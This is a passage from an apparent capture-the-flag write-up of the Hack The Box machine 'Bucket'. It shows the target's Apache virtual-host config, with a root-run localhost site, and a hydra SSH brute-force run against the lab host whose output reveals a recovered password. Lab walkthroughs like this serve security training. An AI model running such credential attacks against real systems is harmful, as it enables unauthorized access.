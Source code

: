 ```apache
<VirtualHost 127.0.0.1:8000>
    <IfModule mpm_itk_module>
        AssignUserId root root
    </IfModule>
    DocumentRoot /var/www/bucket-app
</VirtualHost>

<VirtualHost *:80>
    DocumentRoot /var/www/html
    RewriteEngine On
    RewriteCond %{HTTP_HOST} !^bucket.htb$
    RewriteRule /.* http://bucket.htb/ [R]
</VirtualHost>
<VirtualHost *:80>
    ProxyPreserveHost on
    ProxyPass / http://localhost:4566/
    ProxyPassReverse / http://localhost:4566/
    <Proxy *>
        Order deny,allow
        Allow from all
    </Proxy>
    ServerAdmin webmaster@localhost
    ServerName s3.bucket.htb

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

Besides being able to connect to this service locally, we'll need some credentials to tunnel some communication via SSH and properly enumerate this service.

Once this website had nothing interesting, decided to test the passwords previously collected in DynamoDB for user `roy`, and luckily we had success. Below is the `hydra` execution which automated this SSH Brute Force.

```bash
$ hydra -l roy -P passwords 10.10.10.212 -t 4 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-02-26 12:55:36
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:1/p:3), ~1 try per task
[DATA] attacking ssh://10.10.10.212:22/
[22][ssh] host: 10.10.10.212   login: roy   password: n2vM-<_K_Q:.Aa2
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-02-26 12:55:40
```

Once we have access to the machine as `roy`, I have collected the user flag:
